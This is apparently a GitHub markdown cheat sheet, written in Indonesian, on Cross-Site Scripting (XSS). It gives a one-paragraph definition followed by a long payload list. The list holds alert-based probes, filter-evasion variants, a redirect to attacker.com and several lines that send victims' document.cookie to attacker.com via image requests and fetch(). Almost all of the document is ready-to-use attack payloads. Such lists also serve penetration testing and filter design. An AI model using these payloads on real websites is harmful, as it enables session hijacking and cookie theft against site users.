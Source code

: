 # Cross-Site Scripting XSS

## Pengertian

**Cross-Site Scripting (XSS)** adalah serangan di mana penyerang menyisipkan kode JavaScript berbahaya ke dalam halaman web. Saat korban membuka halaman tersebut, script akan dijalankan di browser korban, memungkinkan pencurian data seperti cookie, session, atau manipulasi DOM.

## Payload

```
<script>alert(1)</script>

<svg/onload=alert(1)>

<img src=x onerror=alert(1)>

<iframe src="javascript:alert(1)"></iframe>

<img src=x onerror=prompt(1)>

<svg><animate onbegin=alert(1)>

<video><source onerror=alert(1)>

<details open ontoggle=alert(1)>

<marquee onstart=alert(1)>

https://example.com/?q=<script>alert(1)</script>

https://example.com/#<img src=x onerror=alert(1)>

https://example.com/?x="><img src=x onerror=alert(1)>

";alert(1);//

';alert(1);//

";location='http://attacker.com'//

#<script>alert(1)</script>

#<img src=x onerror=alert(1)>

#<svg/onload=alert(1)>

"><svg/onload=alert(1)>

"><img src=x onerror=alert(1)>

"><script>alert(1)</script>

<svg><script>alert(1)</script>

<math><mtext></mtext><script>alert(1)</script>

<video><source onerror=alert(1)>

<details open ontoggle=alert(1)>

<script>new Image().src='http://attacker.com/?c='+document.cookie</script>

<script>fetch('http://attacker.com/?x='+document.cookie)</script>

<scr<script>ipt>alert('1')</script>

<SCRIPT>document.write('<img src=/' + document.cookie + '>');</SCRIPT>
```
